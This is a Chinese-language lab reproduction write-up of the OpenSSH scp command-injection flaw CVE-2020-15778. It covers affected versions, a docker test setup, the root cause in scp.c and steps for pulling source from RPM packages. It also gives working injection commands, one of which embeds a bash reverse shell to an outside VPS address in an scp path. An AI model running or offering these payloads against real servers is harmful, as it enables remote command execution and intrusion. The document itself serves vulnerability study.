






# OpenSSH 命令注入漏洞（CVE-2020-15778）
## 简介
OpenSSH（OpenBSD Secure Shell）是OpenBSD计划组的一套用于安全访问远程计算机的连接工具。该工具是SSH协议的开源实现，支持对所有的传输进行加密，可有效阻止窃听、连接劫持以及其他网络级的攻击。

OpenSSH 8.3p1及之前版本中的scp的scp.c文件存在命令注入漏洞。该漏洞源于外部输入数据构造可执行命令过程中，网络系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞执行非法命令。

## 影响范围
```
产品：Openssh
影响的组件：SCP
漏洞版本：openssh<= openssh-8.3p1
```

## 漏洞环境
https://github.com/V0WKeep3r/vulhub/tree/master/openssh/CVE-2020-15778


## 漏洞复现
docker作为漏洞环境，本机作为攻击机。
从攻击机使用scp拷贝文件到docker，正常是只拷贝文件
```
#使用scp命令将test传送至受害机的tmp文件夹下
scp test root@10.10.xx.xx:/tmp/test.txt
#之后需要输入受害机的密码，输入完成后，文件即传送过去了
```
漏洞点是可以在拷贝文件的同时，进行命令注入：
```
#在攻击机上通过特殊符号 ` 进行远程命令注入攻击
scp -P 20022 test root@127.0.0.1:'`touch /tmp/flag.sh`/tmp/test'
```

受害机docker中，发现**命令执行**，且文件传输过来。


使用该方式反弹shell：
```
scp -P 20022 test root@127.0.0.1:'`bash -i &>/dev/tcp/xx.vps.ip.xx/8899 <&1`/tmp/test'
```



复现完成。该漏洞稍微**有点鸡肋**，需要知道ssh的账户密码，因此只能在在特定环境下使用，如**虽然知道ssh账户密码，但是通常的ssh连接被阻止了。** 这个时候我们就可以利用这个漏洞进行连接。

## 漏洞原理
在上述过程中，scp会使用”-t“参数来获取存储传入文件的路径，如下：
```
scp Filename user@host:directory/Filename
```
在上述过程中，scp会使用”-t“参数来获取存储传入文件的路径，如下：
```
scp -t directory/Filename
```

问题就出在这个地方，也就是"scp.c"文件的991行，如图。这个地方未对传入的文件路径进行检测防护。攻击者可以使用反引号包裹payload然后加上文件名执行scp命令，这时，payload将会发送到远程服务器并执行。

**简单提一下，如何还原一个命令的源代码：**(我这办法可能有点复杂，也是看别人文章学的)
```bash
以centOS scp命令为例：

1. 使用which命令查看scp命令的位置：
    which scp
    /usr/bin/scp
    
2. 使用rpm命令查询scp命令所属的包:
    rpm -qf /usr/bin/scp
    openssh-clients-7.4p1-21.el7.x86_64
    
3. yumdownloader是一个从RPM源下载RPM的程序，可以使用 yumdownloader命令安装源代码(yum install yum-utils 安装yumdownloader)，如下：
    yumdownloader --source openssh-clients-7.4p1-21.el7.x86_64
    或者直接搜索openssh-clients-7.4p1-21.el7.x86_64 下载rpm包
    
4. 可以使用如下的命令查询rpm中的tar文件：
    rpm -qpl openssh-7.4p1-21.el7.src.rpm | grep tar
    openssh-7.4p1.tar.gz
    pam_ssh_agent_auth-0.10.3.tar.bz2
    
5. 使用rpm2cpio命令将rpm包文件转换成cpio归档文件，再使用cpio命令，从cpio归档文件复制提取出一个归档文件
    rpm2cpio openssh-7.4p1-21.el7.src.rpm | cpio -idv openssh-7.4p1.tar.gz
    openssh-7.4p1.tar.gz
    6537 块
```



## 参考链接
* [CVE-2020-15778漏洞复现](https://www.jianshu.com/p/2a0ea4fec92a)
* [Linux系统的命令源代码的获取方法](https://blog.csdn.net/ljianhui/article/details/46449417)
* https://github.com/cpandya2909/CVE-2020-15778